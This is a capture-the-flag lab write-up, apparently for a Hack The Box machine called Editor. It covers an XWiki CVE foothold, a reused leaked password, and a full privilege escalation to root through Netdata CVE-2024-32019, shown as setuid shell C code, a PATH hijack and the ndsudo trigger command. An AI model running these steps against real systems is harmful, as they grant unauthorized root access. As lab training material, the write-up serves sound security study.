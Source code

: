 ## Fingerprinting

### Nmap scan

I ran this Nmap command:

`sudo nmap -sC -sV 10.10.11.80`

Output (shortened) shows:

- `22/tcp` — OpenSSH 8.9p1 (SSH)
    
- `80/tcp` — nginx 1.18.0 (HTTP)
    
- `8080/tcp` — Jetty 10.0.20 (HTTP, XWiki)
    

The Jetty/XWiki site exposes WebDAV methods (PROPFIND, LOCK, UNLOCK), has many `robots.txt` disallows, and a JSESSIONID cookie that is missing `HttpOnly`.

(Full Nmap output is in the original note.)

---

## Enumeration

The page on port 80 looked normal:  
![[Screenshot 2025-10-01 alle 15.51.03.png]]  
Nothing interesting there yet.

The page on port 8080 (XWiki) showed more info at the bottom, including the XWiki version.  
![[Screenshot 2025-10-01 alle 15.52.43.png]]  
![[Screenshot 2025-10-01 alle 15.54.27.png]]

---

## Vulnerability assessment

I searched online and found that the XWiki version running has a recent CVE (2025).  
![[Screenshot 2025-10-01 alle 16.20.56.png]]

---

## Exploitation

I copied the exploit script into `vim`, ran it, and a reverse shell opened.  
![[Screenshot 2025-10-01 alle 17.47.45.png]]

The shell put me on the system as the user **xwiki**.  
![[Screenshot 2025-10-01 alle 17.14.01.png]]

While enumerating files and folders I found `WEB-INF/hibernate.cfg.xml`. Inside it I discovered a password:  
`theEd1t0rTeam99`.  
![[Screenshot 2025-10-01 alle 17.14.46.png]]  
![[Screenshot 2025-10-01 alle 16.19.12.png]]

Who is that password for? I stepped back and looked for users. I found a user folder `/home/oliver`. I tried SSH and got in as **oliver**, then grabbed `user.txt`.  
![[Screenshot 2025-10-01 alle 17.39.09.png]]

---

## Privilege escalation

In one directory I found `linpeas.sh` (the usual local enumeration script). From its output I noticed:

- A user named **netdata**
    
- A service listening on **port 19999**
    

Netdata is a real-time system monitoring tool. Its default port is **19999**. The Netdata web UI was reachable only locally, so I did local port forwarding:

`ssh -L 19999:127.0.0.1:19999 oliver@editor.htb`

Then I opened `http://127.0.0.1:19999` in my browser and saw the Netdata UI. There was a red warning telling the admin to upgrade for security. The running version was **1.45.2**.  
![[Screenshot 2025-10-01 alle 17.52.23.png]]

I found a GitHub PoC for **CVE-2024-32019** that targets this Netdata version.  
![[Screenshot 2025-10-01 alle 18.04.54.png]]

### Steps I used to get root

1. Save this C code as `nvme.c`:
    

`#include <stdio.h> #include <stdlib.h> #include <unistd.h>  int main() {     setuid(0);     setgid(0);     execl("/bin/bash", "bash", NULL);     return 0; }`

2. Compile the exploit:
    

`gcc nvme.c -o nvme`

3. Prepare a fake bin directory and move the compiled binary there:
    

`mkdir -p /tmp/fakebin mv nvme /tmp/fakebin/ chmod +x /tmp/fakebin/nvme`

4. Prepend the fake directory to `PATH`:
    

`export PATH=/tmp/fakebin:$PATH`

5. Run the vulnerable Netdata plugin command to trigger the exploit:
    

`/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

After that, I was able to escalate to **root**.  
![[Screenshot 2025-10-01 alle 18.24.01.png]]
---
## Notes & takeaways

- XWiki on port 8080 was the initial foothold (known CVE).
    
- The `hibernate.cfg.xml` leak yielded a useful password.
    
- Netdata (port 19999) had a local exploit that led to root.
    
- Port forwarding (SSH local tunnel) allowed access to Netdata from my machine.
    

---
## References

- PoC: [https://github.com/sPhyos/cve-2024-32019-PoC](https://github.com/sPhyos/cve-2024-32019-PoC)